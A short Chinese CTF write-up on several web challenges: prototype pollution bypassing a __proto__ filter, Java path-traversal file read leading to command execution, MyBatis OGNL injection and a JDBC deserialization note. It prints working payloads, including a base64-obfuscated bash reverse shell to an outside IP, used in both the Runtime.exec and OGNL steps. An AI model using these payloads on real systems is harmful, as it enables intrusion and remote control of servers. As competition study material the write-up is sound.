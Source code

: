 # web
### ez_sandbox
#原型链污染 

过滤了 `__proto__`
`constructor.prototype`绕过

先注册一个用户
,在登录时污染admins对象
```json
{"username":"leijk","password":"leijk","constructor":{"prototype":{"leijk":"123"}}}
```

---
vm沙箱不会绕


### auth_bypass
#java
给了源码,审计发现存在任意文件读取,前缀的download使用双斜杠绕过
![image.png](https://gitee.com/leiye87/typora_picture/raw/master/20231022211027.png)
读取配置文件web.xml
得到evil路径并读取evilServlet的class源码 `../WEB-INF/classes/com/example/demo/EvilServlet.class`
反编译打开,存在恶意命令执行
![image.png](https://gitee.com/leiye87/typora_picture/raw/master/20231022211317.png)

Runtime.exec()单参数命令执行需要修改以下反弹shell的形式
https://blog.spoock.com/2018/11/25/getshell-bypass-exec/

需要urlencode以下字符串
```
bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC81NC4yNTUuMTY2LjEyLzgyIDA+JjE=}|{base64,-d}|{bash,-i}
```

### mybaits
mybaits2.2存在ongl表达式注入漏洞
#ongl 
```java
${@java.lang.Runtime@getRuntime().exec("calc")}
//反弹shell需要{},使用base64编码
${@java.lang.Runtime@getRuntime().exec(new java.lang.String(@java.util.Base64@getDecoder().decode('YmFzaCAtYyB7ZWNobyxZbUZ6YUNBdGFTQStKaUF2WkdWMkwzUmpjQzgxTkM0eU5UVXVNVFkyTGpFeUx6Z3lJREErSmpFPX18e2Jhc2U2NCwtZH18e2Jhc2gsLWl9')))}
```

### testConnection
会进行一个数据库的test连接,存在jdbc反序列化漏洞

# reverse

# pwn

# crypto

# Misc


---
# *相关wp*




2023-10-21   13:22